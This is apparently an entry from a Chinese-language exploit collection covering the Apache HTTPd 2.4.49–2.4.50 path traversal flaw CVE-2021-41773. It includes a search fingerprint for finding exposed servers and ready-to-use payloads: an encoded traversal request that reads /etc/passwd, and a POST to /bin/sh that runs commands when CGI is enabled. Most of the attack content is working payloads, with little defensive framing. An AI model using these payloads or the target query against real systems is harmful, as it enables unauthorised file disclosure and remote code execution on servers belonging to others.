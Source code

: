 # Apache HTTPd 路径穿越漏洞 CVE-2021-41773

# Apache HTTPd 路径穿越漏洞 CVE-2021-41773

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件

## 漏洞影响

```
Apache HTTPd 2.4.49~2.4.50版本
```

## 网络测绘

```
server="Apache/2.4.49"
```

## 漏洞复现

Chorme插件Wappalyzer获取 Apache版本

![image-20220525155347737](/images/202205251554093.png)

验证POC

```
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![image-20220525155515446](/images/202205251555506.png)

开启CGI的情况下可RCE

```
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
  
B=|id>/tmp/id_txt
```

